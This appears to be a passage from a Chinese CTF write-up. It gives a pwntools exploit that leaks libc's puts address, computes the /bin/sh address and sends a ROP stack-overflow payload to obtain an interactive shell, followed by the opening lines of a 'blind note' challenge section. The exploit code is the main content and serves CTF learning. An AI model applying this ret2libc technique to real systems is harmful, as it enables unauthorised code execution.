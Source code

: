 ```python
log.info(hex(u64(info.ljust(8,'\0'))))

libc_puts = u64(info.split()[0].ljust(8,'\0'))
puts_offset = 0x06f690 # remote
#puts_offset = 0x83cc0 #local
binsh_offset = 0x18cd57 #0x1afb84 
#binsh_offset = 0x1afb84 # local

libc_binsh = libc_puts-puts_offset+binsh_offset

log.info('libc puts addr: '+hex(libc_puts))
log.info('libc binsh addr: '+hex(libc_binsh))

payload2 = "".ljust(48,"B") + p64(s) + ss + p64(0)
# payload2 += p64(0x4008b9)  #test
payload2 += p64(prdi) + p64(libc_binsh) + p64(0x4008be) + p64(main)

log.info("payload2:"+payload2)

p.recvuntil("Now let's begin\n")
# gdb.attach(p)
p.sendline(payload2)

p.interactive()

```

### blind note
 - 输入`66`给`puts_libc`地址
![b1](./b1.png)
 - 每创建一个节点，指针加4字节